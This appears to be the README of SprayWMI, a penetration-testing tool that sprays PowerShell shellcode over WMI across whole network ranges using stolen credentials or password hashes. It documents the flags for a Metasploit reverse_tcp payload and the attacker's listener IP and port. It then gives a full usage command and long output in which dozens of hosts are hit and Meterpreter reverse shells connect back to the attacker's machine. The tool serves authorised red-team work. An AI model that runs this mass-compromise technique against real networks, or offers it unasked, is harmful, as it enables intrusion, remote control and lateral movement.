 SprayWMI is a method for mass spraying unicorn powershell injection to CIDR notations.

Written by David Kennedy @TrustedSec
Special thanks: Justin Elze and Larry Spohn

Initial Blog: https://www.trustedsec.com/june-2015/no_psexec_needed/ if you have trouble with this on 64 bit - try:

dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 && apt-get install libpopt0:i386

Flag descriptions:

DOMAIN - domain you are attacking - if its local, just specify workgroup

USERNAME - username to authenticate on the remote Windows system

PASSWORD - password or password hash lm:ntlm to use on the remote Windows system

CIDR_RANGE,CIDR_RANGE or ips.txt - you can specify a single ip, a CIDR range (192.168.1.1/24) or multiple CIDRs such as 192.168.1.1/24,192.168.2.1/24. You can also specify a file (ex: file.txt) which has single IP addresses on a new line. 

METASPLOIT_PAYLOAD - this is the payload you want to use example: windows/meterpreter/reverse_tcp

REVERSE_SHELL_IP - this is the IP address of your attacker machine that you want to create a listener or use an already established listener

REVERSE_SHELL_PORT - port to connect back on for the reverse

OPTIONAL: NO - specify no if you do not want to create a listener - this is useful if you already have a listener established. If you do not specify a value here, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password or hash lm:ntlm> <cidr_range,cidr_range or ips.txt> <metasploit_payload> <reverse_shell_ip> <reverse_shell_port> <optional: no>

Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 192.168.90.1/24,192.168.0.1/24,192.168.59.1/24,192.168.96.1/24,192.168.1.1/24 windows/meterpreter/reverse_tcp 192.168.47.24 443

[*] Generating shellcode through unicorn, could take a few seconds...

[*] Launching the listener in the background...

[*] Waiting for the listener to start first before we continue forward...

[*] Be patient, Metaploit takes a little bit to start...

[*] Sweeping network for ports that are open first, then moving through... Be patient.

[*] Launching WMI spray against IP: 192.168.90.1 - you should have a shell in the background. Once finished, shell will spawn

[*] Launching WMI spray against IP: 192.168.90.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.7 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.14 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.16 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.18 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.25 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.30 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.37 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.38 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.39 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.41 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.46 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.52 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.53 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.54 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.55 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.58 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.63 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.64 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.101 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.102 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.106 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.107 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.113 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.119 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.151 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.158 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.159 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.171 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.174 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.175 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.176 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.183 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.184 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.187 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.197 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.199 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.203 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.204 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.208 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.216 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.223 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.225 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.227 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.228 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.231 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.237 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.240 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.244 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.248 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.252 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.92 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.12 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.20 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.21 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.22 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.23 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.242 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.1.13 - you should have a shell in the background. Once finished, shell will spawn
[*] Spraying is still happening in the background, shells should arrive as they complete.
[*] Interacting with Metasploit...

msf exploit(handler) > 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.174
[*] Meterpreter session 1 opened (192.168.47.24:443 -> 192.168.90.174:49868) at 2015-10-13 04:33:55 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.203
[*] Meterpreter session 2 opened (192.168.47.24:443 -> 192.168.90.203:51333) at 2015-10-13 04:33:59 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.184
[*] Meterpreter session 3 opened (192.168.47.24:443 -> 192.168.90.184:61218) at 2015-10-13 04:34:02 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.204
[*] Meterpreter session 4 opened (192.168.47.24:443 -> 192.168.90.204:54219) at 2015-10-13 04:34:06 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.175
[*] Meterpreter session 5 opened (192.168.47.24:443 -> 192.168.90.175:54210) at 2015-10-13 04:34:10 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.16
[*] Meterpreter session 6 opened (192.168.47.24:443 -> 192.168.90.16:56657) at 2015-10-13 04:34:14 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.96.242
[*] Meterpreter session 7 opened (192.168.47.24:443 -> 192.168.96.242:49504) at 2015-10-13 04:34:18 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.183
[*] Meterpreter session 8 opened (192.168.47.24:443 -> 192.168.90.183:56926) at 2015-10-13 04:34:28 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.248
[*] Meterpreter session 9 opened (192.168.47.24:443 -> 192.168.90.248:53657) at 2015-10-13 04:34:31 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.39
[*] Meterpreter session 10 opened (192.168.47.24:443 -> 192.168.90.39:60451) at 2015-10-13 04:34:35 -0400
[*] Encoded stage with x86/shikata_ga_nai
